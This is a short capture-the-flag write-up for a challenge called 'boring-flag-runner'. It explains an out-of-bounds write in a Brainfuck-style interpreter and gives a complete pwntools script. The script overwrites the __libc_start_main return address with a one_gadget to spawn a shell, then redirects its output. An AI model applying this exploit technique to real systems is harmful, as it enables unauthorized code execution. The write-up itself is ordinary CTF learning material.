 # boring-flag-runner
The instruction sequence has been checked in the previous task. We also know that there is no boundary check. The trouble is that the buffer of input command is a fixed offset and this command can be used only once. In this case, it is difficult to rely on leaks and re-entry, so I tried to input address-diff this time. I subtracted to change `__libc_start_main ret` to one_gadget.

```python
def start():
        if not args.R:
                print("local")
                return process([TARGET, './pwn-out'])
        else:
                print("remote")
                r = remote(HOST, PORT)
                with open('pwn-out', 'rb') as f: 
                        r.sendlineafter(': ', f.read().decode('latin-1'))
                return r

def bf2byte(inp):
        bf = ['>', ']', '<', '[', ',', '.', '-', '+']
        out = ''
        for i in inp:
                out += chr(0x20+bf.index(i))
        return out

payload = ''
payload += '+' * 0x41
payload += '.'
payload += '>' * 0x138
# payload += '-' * (0x35-3-3)
payload += '-' * (0x35 - 3)
payload += '>'
payload += '-' * 0x4
payload += '>'
payload += '+' * 0xc
payload += '>>>>>>>>,'
payload = bf2byte(payload)

with open('pwn-out', 'wb') as f:
        f.write(payload)
r = start()

r.recvuntil('A')
sleep(0.2)
r.send('exec 2>&0; exec 1>&0;\n')

r.interactive()
r.close()
```

This also requires `exec 2> & 0; exec 1> & 0;` to see output.

---